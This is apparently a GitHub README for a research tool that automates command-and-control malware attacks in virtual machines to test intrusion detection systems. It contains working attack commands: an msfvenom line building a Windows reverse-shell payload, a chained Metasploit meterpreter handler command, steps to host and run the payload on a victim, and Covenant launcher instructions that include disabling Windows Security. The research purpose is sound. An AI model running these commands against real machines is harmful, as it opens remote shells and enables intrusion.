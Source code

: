 # C2abstraction
C2 abstraction layer that provides high-level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important python files are 'C2Abstraction' and 'Mouse Script'

# Virtual Machines:

Attacker - Kali Linux (each IP is different => Must change line 64 in setup)

Victim - Another virtual machine (in this case using Windows)

    Preliminary work:
        - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
        - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

# METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


    How to track if HTTP commands/connections are going through?
        -You can catch the logs of the HTTP connections in real time by
            * going to /etc
            * then go to /ssh
            * then use 'nano' command to edit the 'sshd_config' file
            * look for the line '#LogLevel INFO'
            * remove the # then replace INFO with 'VERBOSE'
            * now run 'sudo journalctl -f' in the command line to track the logs
    
    How to run the payload on the victim machine?
        - Using SCP we can connect to the victim machine via SSH and execute the payload 


# COVENANT:

NOTE: What is the difference between covenant and metasploit?

- Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM

How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

    IMPORTANT: You must have convenant running in GIT bash at all times 

    How to create a listener? 
        - On the web GUI, click on the 'Listener' tab. Then name your listener and set the port.
        - Make sure that the IP address is correct. You can check your IP address by running the command 'ipconfig' in your terminal and use the IPv4 address.
          To check that the listener is active, run 'netstat -ant' in your terminal and look for the port number that you specified. 

    How to create the grunt to connect to the listener?
        - On the web GUI, click on the 'Launcher' tab. Since our victim machine is windows, click on 'PowerShell' and generate the launcher
        - Then copy and paste into the powershell of your vicitm machine. MAKE SURE TO TURN OFF YOUR WINDOWS SECURITY. 
        - Once activated, you will get a notification on the GUI. In the 'Grunt' tab, you will see the host name. Then you can click on the active grunt and go to the 'interactive' tab to begin executing commands.
        

Mouse Script:
    - This python file is used to provide examples of how commands for automatically controlling your mouse to navigate a webpage work.
    - This is important for navigating the GUI of Covenant




# Citation
    @Unpublished{HungVu_IDS_TESTING_C2,
      author = {Hung Anh Vu},
      title = {{Research Testing Environment}},
      url = {https://github.com/HungAnhVu/C2abstraction},
      version = {1.0.0},
      year = {2023}
    }
